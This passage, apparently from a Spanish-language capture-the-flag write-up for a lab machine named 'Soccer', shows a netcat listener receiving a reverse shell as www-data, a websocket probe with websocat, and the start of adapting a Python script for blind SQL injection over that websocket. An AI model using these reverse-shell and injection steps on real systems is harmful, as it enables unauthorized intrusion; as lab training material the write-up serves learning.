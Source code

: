![shell](/assets/img/shell.png)

A continuacion no ponemos en escucha en nuestro equipo con netcat y pulsamos ***Open*** en pagina web del archivo. Asi podremos obtener nuestra ***shell*** reversa como ***www-data*** 

 ```bash
 ❯ nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.194] 53304
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell

www-data@soccer:~/html/tiny/uploads$ whoami
whoami
www-data

www-data@soccer:~/html/tiny/uploads$ hostname -I
hostname -I
10.10.11.194 dead:beef::250:56ff:feb9:636c 
www-data@soccer:~/html/tiny/uploads$
 ```
 Aunque como el usuario ***www-data*** no encontraremos gran cosa.
 Pero recordemos que el ***puerto 9091*** estaba abierto con el servicion ***xmlmail*** posiblemente sea un ***web socket*** y lo podremos comprobar con ***websocat***

 ```bash
 ❯ websocat ws://soccer.htb:9091 -v

[INFO  websocat::lints] Auto-inserting the line mode
[INFO  websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO  websocat::ws_client_peer] get_ws_client_peer
[INFO  websocat::ws_client_peer] Connected to ws
 ```
Y efectivamente, tenemos conectividad.
Es hora de hacer una busque en ***google***, que tanto nos ayuda.
Podermos dar con el siguiente -> [link](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html), que indica como podemos hacer una sql injection al web socket redirigiendo la peticional mismo ***web socket*** con un script en python.

Usaremos el script que nos proporcia el articulo variando.

```python
ws_server = "ws://localhost:8156/ws"
# SUSTITUCION
ws_server = "ws/soccer.htb:9091/"
```
